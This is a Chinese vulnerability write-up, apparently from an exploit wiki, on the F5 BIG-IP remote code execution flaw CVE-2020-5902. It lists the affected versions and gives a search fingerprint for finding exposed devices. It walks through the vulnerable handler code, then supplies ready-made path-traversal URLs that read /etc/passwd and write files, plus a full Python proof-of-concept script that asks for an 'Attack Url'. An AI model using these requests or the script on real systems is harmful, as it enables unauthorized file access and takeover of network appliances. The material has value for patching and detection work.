





F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902¶
漏洞描述¶
2020年07月03日， 360CERT监测发现 F5 发布了 F5 BIG-IP 远程代码执行 的风险通告，该漏洞编号为 CVE-2020-5902，漏洞等级：严重。
未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 F5 BIG-IP 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。
参考阅读：
漏洞影响¶
F5 BIG-IP 15.x: 15.1.0.4
F5 BIG-IP 14.x: 14.1.2.6
F5 BIG-IP 13.x: 13.1.3.4
F5 BIG-IP 12.x: 12.1.5.2
F5 BIG-IP 11.x: 11.6.5.2
网络测绘¶
title="BIG-IP® ;- Redirect"
漏洞复现¶
在 tmshCmd 的 service方法处理请求的时候，未对command 参数进行处理，直接调用 WorkspaceUtils.runTmshCommand(cmd, request); 方法执行命令，限制了执行delete,create,list,modify。
if ("POST".equalsIgnoreCase(request.getMethod())) {
String[] cmdArray = command.split(" ");
String operation = cmdArray[0];
String module = cmdArray[2];
if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
try {
String[] args = new String[]{command};
Result result = Syscall.callElevated(Syscall.TMSH, args);
output = result.getOutput();
error = result.getError();
} catch (CallException var11) {
logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
error = var11.getMessage();
}
} else {
error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
在 fileRead 的 service方法处理请求的时候，未对 fileName 参数进行处理，直接调用 WorkspaceUtils.readFile(fileName); 方法，进行文件读取。

在 fileSave 的 service方法处理请求的时候，未对 fileName，content 参数进行处理，直接调用 WorkspaceUtils.saveFile(request); 方法，进行文件上传。

详情利用方式 https://github.com/jas502n/CVE-2020-5902
详情利用方式 https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md
读取文件
http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

写入文件
http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp
POST: fileName=/tmp/test.txt&content=test
读取文件 /tmp/test

成功写入文件
漏洞POC¶
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: F5 BIG-IP \033[0m')
print('+ \033[36m使用格式: python3 CVE-2020-5902.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Accept-Language":"zh-CN,zh;q=0.9",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
if "output" in response.text:
print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
else:
print("\033[31m[x] 目标漏洞无法利用 \033[0m")
except Exception as e:
print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
sys.exit(0)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
